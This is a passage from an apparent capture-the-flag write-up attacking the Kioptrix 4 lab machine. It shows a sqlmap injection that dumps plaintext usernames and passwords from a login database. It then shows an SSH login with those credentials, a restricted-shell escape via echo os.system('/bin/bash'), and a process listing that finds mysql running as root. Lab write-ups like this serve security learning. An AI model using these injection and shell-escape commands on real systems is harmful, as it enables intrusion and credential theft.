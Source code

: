 ```bash
+----------+-------------+
| id       | int(4)      |
| password | varchar(65) |
| username | varchar(65) |
+----------+-------------+

kali@kali:~$ sqlmap http://192.168.56.110/checklogin.php --data="myusername=admin&mypassword=%27&Submit=Login" -D members -T members --dump
Database: members
Table: members
[2 entries]
+----+-----------------------+----------+
| id | password              | username |
+----+-----------------------+----------+
| 1  | MyNameIsJohn          | john     |
| 2  | ADGAdsafdfwt4gadfga== | robert   |
+----+-----------------------+----------+
```

That's what I was looking for. I tried to use these credentials in a few different ways and ended up getting access to both the login form on the website (which seemingly does nothing but show the credentials you already correctly entered) and `ssh`. After connecting through `ssh` I landed in some kind of restricted shell. I did some research on escaping restricted shells and found out the `echo` command (which I had access to, fortunately) can be used for this:

```bash
kali@kali:~$ ssh john@192.168.56.110
john@192.168.56.110s password:
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  do not screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$
```

From there on out I took a look at the currently running processes and found that `mysql` was running as root:

```bash
john@Kioptrix4:/var/www$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  0.1   2844  1692 ?        Ss   04:50   0:00 /sbin/init
root         2  0.0  0.0      0     0 ?        S<   04:50   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S<   04:50   0:00 [migration/0]
root         4  0.0  0.0      0     0 ?        S<   04:50   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   04:50   0:00 [watchdog/0]
root         6  0.0  0.0      0     0 ?        S<   04:50   0:00 [events/0]
root         7  0.0  0.0      0     0 ?        S<   04:50   0:00 [khelper]
root        41  0.0  0.0      0     0 ?        S<   04:50   0:00 [kblockd/0]
root        44  0.0  0.0      0     0 ?        S<   04:50   0:00 [kacpid]
root        45  0.0  0.0      0     0 ?        S<   04:50   0:00 [kacpi_notify]
root        88  0.0  0.0      0     0 ?        S<   04:50   0:00 [kseriod]
root       127  0.0  0.0      0     0 ?        S    04:50   0:00 [pdflush]
root       128  0.0  0.0      0     0 ?        S    04:50   0:00 [pdflush]
root       129  0.0  0.0      0     0 ?        S<   04:50   0:00 [kswapd0]
root       171  0.0  0.0      0     0 ?        S<   04:50   0:00 [aio/0]
root      1263  0.0  0.0      0     0 ?        S<   04:50   0:00 [ata/0]
root      1266  0.0  0.0      0     0 ?        S<   04:50   0:00 [ata_aux]
root      1275  0.0  0.0      0     0 ?        S<   04:50   0:00 [scsi_eh_0]
root      1278  0.0  0.0      0     0 ?        S<   04:50   0:00 [scsi_eh_1]
root      2004  0.0  0.0      0     0 ?        S<   04:50   0:00 [scsi_eh_2]
root      2203  0.0  0.0      0     0 ?        S<   04:50   0:00 [kjournald]
```